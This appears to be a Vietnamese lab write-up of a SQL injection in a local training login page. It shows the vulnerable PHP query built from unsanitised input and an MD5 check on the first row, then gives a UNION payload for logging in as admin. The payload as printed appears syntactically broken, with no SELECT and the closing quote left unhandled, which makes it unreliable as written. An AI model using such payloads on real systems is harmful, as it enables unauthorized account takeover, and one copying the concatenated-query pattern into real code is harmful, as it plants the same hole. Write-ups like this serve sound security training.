



# SQL INJECTION localhost:24001/basic/level5.php
### 1. Tổng quan
lv6 là website để login 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:24001/basic/level5.php cho phép thực hiện login
#### Impact
Kẻ xấu có thể thực thi 1 phần/toàn bộ SQL query trên server
#### Root-cause analysis

Trong mã nguồn `/src/basic/level5.php`, user input được nối trực tiếp với chuỗi SQL query là biến `$_POST["username"]`

    $sql = "SELECT username, password FROM users WHERE username='$username'";
	$query = $database->query($sql);
	$row = $query->fetch_assoc();

Và muốn login được phải qua 1 lớp kiểm tra password có đúng như password được lưu trong database không?

	$login_user = $row["username"];
	$login_password = $row["password"];

	if ($login_password !== md5($password))
		return "Wrong username or password";

Mà ứng dụng chỉ lấy row đầu tiên trong câu query. Vậy sẽ ra sao nếu ta thao túng kết quả trả về từ database của câu query ? 

#### Step to reproduce

1. Tạo mật khẩu ở dạng Hash

Bản rõ: `12345`

Hash: `827ccb0eea8a706c4c34a16891f84e7b`

2. Login tài khoản admin

Vì ứng dụng chỉ lấy row đầu tiên trong câu query nên ta để câu truy vấn đâu tiên không có kết quả trả về, sau đó Sử dụng `UNION` để thêm 1 row bên dưới kết quả của query ban đầu

Payload: 

        username: -999' UNION 'admin','827ccb0eea8a706c4c34a16891f84e7b'

        password: 12345

